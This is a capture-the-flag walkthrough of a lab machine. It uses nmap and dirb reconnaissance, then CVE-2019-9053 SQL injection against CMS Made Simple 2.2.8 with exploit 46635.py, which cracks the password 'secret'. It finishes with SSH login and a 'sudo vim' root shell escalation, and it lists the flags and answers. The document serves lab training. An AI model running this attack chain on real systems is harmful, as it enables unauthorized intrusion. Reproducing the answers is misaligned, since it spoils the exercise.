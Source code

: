 #### Nmap 
```bash
nmap -A -p- 10.10.217.68
Starting Nmap 7.80 ( https://nmap.org ) at 2025-07-13 10:39 BST
Nmap scan report for ip-10-10-217-68.eu-west-1.compute.internal (10.10.217.68)
Host is up (0.00042s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.242.71
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
MAC Address: 02:9F:22:36:72:4B (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.13
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.42 ms ip-10-10-217-68.eu-west-1.compute.internal (10.10.217.68)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 144.00 seconds
```

- How many services are running under port 1000?
	- 2

- What is running on the higher port?
	- ssh

**There's a web page running on port 80 but we only find the default Apache2 page. Let's try a web scanner to find web pages.**

#### Find a web page using Dirb
```bash
dirb http://10.10.217.68 /usr/share/wordlists/dirb/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jul 13 10:57:47 2025
URL_BASE: http://10.10.217.68/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.217.68/ ----
+ http://10.10.217.68/index.html (CODE:200|SIZE:11321)                                                                                     
+ http://10.10.217.68/robots.txt (CODE:200|SIZE:929)                                                                                       
+ http://10.10.217.68/server-status (CODE:403|SIZE:300)                                                                                    
==> DIRECTORY: http://10.10.217.68/simple/ 
```

**We have found a webpage called `simple`.  It is running a website `CMS made simple version 2.2.8`**

- What's the CVE you're using against the application?
	- CVE-2019-9053

- To what kind of vulnerability is the application vulnerable?
	- SQLi

#### Let's try to find the password.
Run the python script to see what it does.
	If you get an error `no module named termcolor`, then install it with pip 
	```
	pip install termcolor
	```

At line 25, there a rundown on how to use the script. 
```bash
print "[+] Specify an url target"
    print "[+] Example usage (no cracking password): exploit.py -u http://target-uri"
    print "[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist"
    print "[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based."
    exit()
```

**Crack the password**
```bash
python 46635.py -u http://10.10.217.68/simple --crack -w /usr/share/wordlist/rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

 - What's the password?
	 - secret
- Where can you login with the details obtained?
	- ssh

#### Login to the Victim Machine
```bash
ssh mitch@10.10.217.68 -p 2222
```

```bash
cat user.txt
```

- What's the user flag?
	- G00d j0b, keep up!

- Is there any other user in the home directory? What's its name?
	- sunbath

```bash
sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

- What can you leverage to spawn a privileged shell?
	- vim

#### Privilege Escalation
Go to GTFOBins
```bash
sudo vim -c ':!/bin/bash'
```

- What's the root flag?
	- W3ll d0n3. You made it!